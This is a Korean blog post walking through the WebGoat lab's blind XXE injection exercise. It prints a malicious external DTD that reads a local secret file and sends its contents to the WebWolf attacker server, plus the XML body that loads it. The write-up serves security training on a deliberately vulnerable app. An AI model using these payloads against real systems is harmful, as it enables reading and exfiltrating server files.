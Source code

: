 ```yaml
---
layout: post
title: WebGoat - XXE Injection (3)
date: 2021-01-13 22:00:00 +0900
category: Web_Hacking
---
```


# WebGoat - XXE Injection (3)

#### DTD 파일을 작성하여 공격자(WebWolf)서버에 "~/.webgoat/plugin/XXE/secret.txt" 파일 업로드하기

<br/>

> XXE(XML eXternal Entity) Injection이란 XML이 외부 엔티티를 포함하고 있을 때, 이를 이용하여 기밀 데이터 유출, DoS 등을 유발하는 공격이다.

<br/>

secret.txt 파일의 경로는 다음과 같다.

![webgoat_xxe3_1](/public/img/webgoat_xxe3_1.PNG)

<br/>

댓글을 작성한 후 Burp Suite를 통해 보면 Content-Type이 application/xml인 것을 알 수 있고, 이를 통해 body 부분이 XML형식으로 전송된다는 것을 알 수 있다.

![webgoat_xxe3_2](/public/img/webgoat_xxe3_2.PNG)

![webgoat_xxe3_3](/public/img/webgoat_xxe3_3.PNG)

<br/>

먼저 다음과 같이 "attack.dtd" 파일을 생성한 후 WebWolf 서버에 업로드해보자.

```shell
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % open SYSTEM "file:///c:/Users/USER/.webgoat-8.0.0.M24/XXE/secret.txt">
<!ENTITY % unzip "<!ENTITY run SYSTEM 'http://127.0.0.1:9090/landing?rst=%open;'>">
%unzip;
```

![webgoat_xxe3_4](/public/img/webgoat_xxe3_4.PNG)

![webgoat_xxe3_5](/public/img/webgoat_xxe3_5.PNG)

<br/>

그리고 link를 복사한다.

```shell
http://127.0.0.1:9090/files/root123/attack.dtd
```

<br/>

이제 body 부분을 다음과 같이 변경하여 Injection을 시도하자.

```shell
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE comment [
<!ENTITY % setDtd SYSTEM "http://127.0.0.1:9090/files/root123/attack.dtd">
%setDtd;
]>
<comment>
<text>&run;</text>
</comment>
```

![webgoat_xxe3_6](/public/img/webgoat_xxe3_6.PNG)

</br>

그러자 이전처럼 댓글에 모든 내용이 보여지는 것이 아니라 빈 댓글이 달렸다. 그 이유는 WebWolf에 기록하도록 설정했기 때문이다.

![webgoat_xxe3_7](/public/img/webgoat_xxe3_7.PNG)

<br/>

이제 WebWolf의 landing 페이지에 가서 rst 파라미터를 통해 secret.txt를 확인해보자.

![webgoat_xxe3_8](/public/img/webgoat_xxe3_8.PNG)

<br/>

해당 내용을 복사한 후 댓글에 작성하면 정답이다.

![webgoat_xxe3_9](/public/img/webgoat_xxe3_9.PNG)